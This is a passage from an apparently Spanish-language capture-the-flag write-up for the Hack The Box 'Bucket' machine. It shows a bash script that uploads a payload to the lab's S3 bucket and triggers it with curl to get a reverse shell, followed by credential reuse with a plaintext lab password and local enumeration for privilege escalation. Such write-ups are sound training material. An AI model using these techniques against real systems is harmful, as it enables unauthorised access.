 Opa, intentamos un par de veces yyyyyyyy va pa i, obtenemos la Shell. Lección aprendida, probar cosas que parezcan extrañas. Entiendo que de alguna manera (quizás en algún documento que no encontré se explica o se menciona "") temporalmente el servidor principal recoge lo que se está subiendo en el bucket para procesarlo o para... Jmm, no sabría para qué realmente ):

Lo mejor es hacer un script para evitar que se nos borren los archivos y no alcanzar a ejecutarlos (lo más probable es que debamos ejecutarlo más de 1 vez):

```bash
#!/bin/bash

file_to_up=$1

echo -e "\n[+] Uploading $file_to_up\n"
aws --endpoint-url=http://s3.bucket.htb/ s3 cp $file_to_up s3://adserver/images/

echo -e "\n[+] Executing reverse shell.\n"
sleep 3

for i in {1..10}; do
  curl -s -m 2 http://bucket.htb/images/$file_to_up > /dev/null
  sleep 1
done
```

Bueno bueno, hagamos un [tratamiento de la TTY](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689) apoyandonos de `S4vitar`.

```bash
www-data@bucket:/$ ls /home/
roy
www-data@bucket:/$ cat /home/roy/user.txt 
cat: /home/roy/user.txt: Permission denied
www-data@bucket:/$ 
```

Probemos migrarnos a `roy` con las contraseñas que encontramos anteriormente:

* Con la contraseña de: `Sysadm - n2vM-<_K_Q:.Aa2`.

![283bash_bHTB_revsh_su_roy](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bucket/283bash_bHTB_revsh_su_roy.png)

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Ahora si a enumerar.

```bash
roy@bucket:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:8000          0.0.0.0:*               LISTEN
tcp        0      0 localhost:33447         0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 localhost:4566          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
...
```
